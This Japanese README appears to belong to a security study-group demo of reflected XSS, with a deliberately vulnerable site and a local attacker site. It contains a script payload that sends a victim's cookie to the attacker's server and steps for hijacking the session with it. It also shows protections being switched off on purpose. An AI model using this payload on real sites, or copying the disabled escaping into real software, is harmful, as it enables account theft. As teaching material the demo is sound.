 # XSSの初歩的な例と実害

を説明するデモです．

## 状況

XSS (_クロス_ サイト スクリプティング) の性質上，localhostの他にも別サイトが必要でした．

<dl>
  <dt>http://脆弱サイト.com</dt>
  <dd>脆弱性を持ったサイト(以下，脆弱サイト)．ログイン機能がある．</dd>

  <dt>http://localhost:5000</dt>
  <dd>攻撃者の用意したサイト(以下，攻撃者サイト) ．</dd>

  <dt>被害者</dt>
  <dd>脆弱サイトのユーザ．攻撃者に脆弱サイトへログインされてしまう．</dd>
</dl>

## 脆弱サイトをいじってみる

```bash
$ google-chrome http://脆弱サイト.com
```

1. `/` において， `user: sampleuser`, `pass: samplepass` と入力してログイン
1. `/login` にて，「ようこそ，sampleuserさん!!」と表示されることを確認

_攻撃目的: `sampleuser/samplepass` を知らないのに，`sampleuser`としてログインする_

## 攻撃手順

### 攻撃者サイトを準備

```bash
$ cd 20131117-tokumaru-benkyokai/sample-sites/attacker-sites/ex00_WhatIsXSS
$ carton install  # 大体5分以上かかります・・・・
$ carton exec perl -Ilib script/ex00_whatisxss-server
$ google-chrome http://localhost:5000
```

### 怪しいリンクを踏ませて脆弱サイトのCookieを入手

1. 下記リンクは，攻撃者がTwitterなどにポストする(短縮URLなど使うとなおのこと引っ掛けやすい)
1. 被害者が下記リンクを踏む
1. 脆弱サイトにてXSS攻撃が成立する
1. 攻撃者サイトにリダイレクトされ，攻撃者サイトに脆弱サイトのCookieが表示される(表示されるということは，その文字列を攻撃者サーバに保存することも容易)

```bash
$ google-chrome --disable-xss-auditor "http://脆弱サイト.com/status?uid=%3Cscript%3Ewindow.location=%22http://localhost:5000/?cookie=%22%2bdocument.cookie%3C/script%3E"
```

_注意: まともなブラウザなら，単純なXSS攻撃は検知してscript実行を中止する．`--disable-xss-auditor`によってchromeにわざとXSS攻撃に引っかかってもらう．_

### Cookie中のセッションIDを使って脆弱サイトにログイン

1. 攻撃者は先程手にしたセッションIDをコピー
1. 下記のように脆弱サイトにアクセスし，ログインが成立

```bash
$ google-chrome http://脆弱サイト.com/login?sid=[セッションID]
```


## 付録

### 攻撃者サイトの準備

```bash
$ cd 20131117-tokumaru-benkyokai/sample-sites/vulnerable-sites/ex00_WhatIsXSS
$ sqlite3 db/development.db < sql/sqlite.sql
$ carton install
$ carton exec perl -Ilib script/ex00_whatisxss-server --host=[IPアドレス] --port=[ポート番号]
```

### Amon2とGoogle Chromeを脆弱にするためにわざわざやったこと

最近のブラウザやらWebアプリフレームワークやらは脆弱性対策されてるんですね．
おい! 誰だPHPの話したの!! 関係ないだろ!!!!

<dl>
  <dt>ChromeのXSS検知&防止機構を無効にする</dt>
  <dd>起動オプションに --disable-xss-auditor をつけて，サーバからのレスポンスヘッダには<a href="/sample-sites/vulnerble-sites/ex00_WhatIsXSS/lib/Web.pm#L47">X-XSS-Protectionを0に指定</a></dd>

  <dt>XslateのHTMLエスケープを無効化</dt>
  <dd><a href="/sample-sites/vulnerable-sites/ex00_WhatIsXSS/tmpl/status.tx#L10">mark_raw 指定をする</a></dd>
</dl>

